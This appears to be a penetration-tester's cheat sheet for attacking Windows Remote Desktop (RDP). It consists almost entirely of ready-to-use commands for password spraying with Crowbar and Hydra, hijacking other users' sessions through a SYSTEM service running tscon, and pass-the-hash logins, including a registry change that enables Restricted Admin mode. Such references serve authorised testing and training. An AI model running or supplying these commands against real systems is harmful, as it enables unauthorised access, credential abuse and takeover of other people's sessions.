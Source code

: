 ## RDP

### PORTS

- 3389/TCP

### CONNECTING

rdesktop

```sh
rdesktop -u <username> -p <password> -d <domain> <ip>
```

### ATTACKS

#### **Password Spraying**

Crowbar

```sh
crowbar -b rdp -s <ip>/32 -U <userlist> -c '<password>'
```

Hydra

```sh
hydra -L <userlist> -p <password> <ip> <protocol>
```

#### **Session Hijacking (Requires SYSTEM)**

Enumerate User Sessions

```ps
query user
```

Create Service

```ps
sc.exe create <svc_name> binpath= "cmd.exe /k tscon <id_to_hijack> /dest:<current_session_name>"
```

```ps
net start <svc_name>
```

#### **Pass The Hash**

Enable Restricted Admin Mode (If Disabled)

```bat
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

Login With XFreeRDP

```sh
xfreerdp /v:<ip> /u:<username> /pth:<hash>
```
